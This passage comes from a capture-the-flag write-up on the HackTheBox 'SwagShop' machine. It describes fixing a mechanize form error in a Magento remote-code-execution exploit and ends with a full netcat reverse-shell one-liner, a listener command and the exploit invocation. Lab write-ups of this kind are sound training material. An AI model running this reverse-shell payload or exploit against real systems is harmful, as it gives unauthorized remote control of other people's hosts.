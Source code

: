
We get an error of `more then one control matching name ...` from the `mechanize` module. While searching this error online, I found [this](https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name) stackoverflow page. 

Based on this page, the error occurs becasue the are multiple username fields in the form, hence the Ambiguous error. The stackoverflow page suggested indexing the correct username field with the `nr` argument using the `find_control` method on the mechanzie browser instance. 

However before I implemented this solution I went over the exploit source code once again:

![line-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SwagShop/img/line-24.png)


This highlighted line jumped to my mind. We can see the author added a comment saying that he had to add manaul control for the username field. I dont know why this was added, but I decided to comment this line out since we have an issue with the `username` field in our form. Maybe this is what's causing the issue? 

After that I ran the exploit again and this time it worked:

![works-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SwagShop/img/works-25.png)

As you can see, the `id` command executed on the target and we got the output. Now we need to find a working payload for a reverse shell. 

After several failed atempts, Ive found that `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f` works for me to get a shell. 

So i start the listener with:

```bash
rlwrap nc -lncp 443
```

And execute the exploit with:

```bash
python2 rce.py http://swagshop.htb/index.php/admin "rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f"
```

This hangs the shell instance, but on my `nc` shell I get a connection:

![shell-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SwagShop/img/shell-26.png)

